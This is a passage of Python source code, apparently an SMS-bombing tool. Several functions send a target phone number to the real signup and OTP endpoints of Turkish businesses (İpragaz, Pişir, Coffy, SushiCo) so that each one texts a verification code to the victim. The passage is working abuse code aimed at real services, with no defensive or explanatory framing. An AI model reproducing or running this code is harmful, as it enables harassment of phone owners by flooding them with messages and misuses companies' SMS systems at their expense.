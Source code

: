         return False, "File"

def ipragraz(number):
    try:
        url = "https://ipapp.ipragaz.com.tr/ipragazmobile/v2/ipragaz-b2c/ipragaz-customer/mobile-register-otp"
        payload = {
            "otp": "",
            "phoneNumber": f"{number}"
        }
        r = requests.post(url=url, json=payload, timeout=5)
        if r.status_code == 200:
            return True, "İpragaz"
        else:
            return False, "İpragaz"
    except:
        return False, "İpragaz"

def pisir(number):
    try:
        url = "https://api.pisir.com/v1/login/"
        payload = {"msisdn": f"90{number}"}
        r = requests.post(url=url, json=payload, timeout=5)
        r1 = json.loads(r.text)["ok"]
        if r1 == "1":
            return True, "Pişir"
        else:
            return False, "Pişir"
    except:
        return False, "Pişir"

def coffy(number):
    try:
        url = "https://prod-api-mobile.coffy.com.tr/Account/Account/SendVerificationCode"
        payload = {"phoneNumber": f"+90{number}"}
        r = requests.post(url=url, json=payload, timeout=5)
        r1 = json.loads(r.text)["success"]
        if r1 == True:
            return True, "Coffy"
        else:
            return False, "Coffy"
    except:
        return False, "Coffy"

def sushico(number):
    try:
        url = "https://api.sushico.com.tr/tr/sendActivation"
        payload = {"phone": f"+90{number}", "location": 1, "locale": "tr"}
        r = requests.post(url=url, json=payload, timeout=5)
        r1 = json.loads(r.text)["err"]
        if r1 == 0:
            return True, "SushiCo"
        else:
            return False, "SushiCo"
    except:
        return False, "SushiCo"
